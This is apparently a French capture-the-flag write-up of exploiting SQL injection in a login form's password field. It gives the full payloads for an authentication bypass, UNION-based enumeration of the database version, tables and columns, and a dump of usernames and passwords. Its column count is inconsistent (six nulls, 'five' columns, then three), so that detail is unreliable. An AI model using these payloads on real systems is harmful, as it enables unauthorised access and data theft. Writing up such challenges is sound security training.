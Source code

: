 **SQL Injection et récupération de données sensibles**

Dans ce challenge, on a un formulaire avec deux champs : `username` et `password`. Notre objectif est d'exploiter une faille SQL Injection pour extraire des données sensibles de la base de données.
![Screenshot](images/web_chall_description.png)
---

#### **Étape 1 : Tester une injection basique**

J'ai commencé par tester une injection SQL simple dans le champ `password`. Voici le payload utilisé :

`username=admin&password='OR''='`

**Résultat :**  
Le serveur retourne une liste d’utilisateurs présents dans la base de données :


![Screenshot](images/web_sqli_auth_bypass.png)

---

#### **Étape 2 : Déterminer le nombre de colonnes**

Ensuite, j’ai essayé de déterminer le nombre de colonnes nécessaires pour une requête SQL valide. J'ai utilisé ce payload :

`username=admin&password=' UNION SELECT null, null, null, null, null, null --` 

Cela a produit une erreur, ce qui indique que 5 colonnes sont nécessaires pour une injection valide.
![Screenshot](images/web_column_nb.png)
---

#### **Étape 3 : Obtenir la version de la base de données**

Avec le nombre correct de colonnes, j’ai utilisé un payload pour récupérer la version de la base de données :

`username=a&password=' UNION SELECT 1, @@version, 3-- -` 

**Résultat :**

![Screenshot](images/web_db_version.png)

Cela indique que la base de données utilise MySQL version 5.7.44.

---

#### **Étape 4 : Lister les tables**

Pour lister les tables disponibles dans la base de données, j’ai utilisé le payload suivant :

`username=a&password=' UNION SELECT 1, TABLE_NAME, 3 FROM INFORMATION_SCHEMA.TABLES-- -` 

**Résultat :**

![Screenshot](images/web_listing.png)

---

#### **Étape 5 : Lister les colonnes d’une table**

Une fois la table `blueprints` identifiée, j’ai listé ses colonnes avec ce payload :

`username=a&password=' UNION SELECT 1, COLUMN_NAME, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='blueprints'-- -` 

**Résultat :**

![Screenshot](images/web_column_names.png)
---

#### **Étape 6 : Extraire les données de la table**

J’ai ensuite extrait les données de la table `blueprints` en combinant les colonnes :


`username=a&password=' UNION SELECT id, CONCAT(username, ':', password, ':', is_encrypted, ':', file_name, ':', description), 3 FROM blueprints--` 

**Résultat :**

![Screenshot](images/web_extr_infos.png)

---

#### **Étape 7 : Décoder les données**

En regardant de plus près, j'ai trouvé une chaîne intéressante associée au fichier `secret_key.txt` :

`W5HWRxWbZM7AUhxgfRwZg58ANQFKgMwutG`

En la décodant en **Base58**, j’ai trouvé une partie de la flag.


![Screenshot](images/web_decode1.png)
![Screenshot](images/web_decode2.png)


---

### **Conclusion**

Ce challenge démontre l’impact potentiel d’une vulnérabilité SQLi. Grâce à des payloads bien construits, il est possible d’extraire des informations sensibles comme les noms de tables, de colonnes, et même des données critiques. La dernière étape, consistant à décoder les données trouvées, est la clé pour résoudre le challenge. Toujours vérifier les données sensibles dans les bases de données et appliquer des mesures de protection telles que les requêtes préparées pour éviter de telles attaques.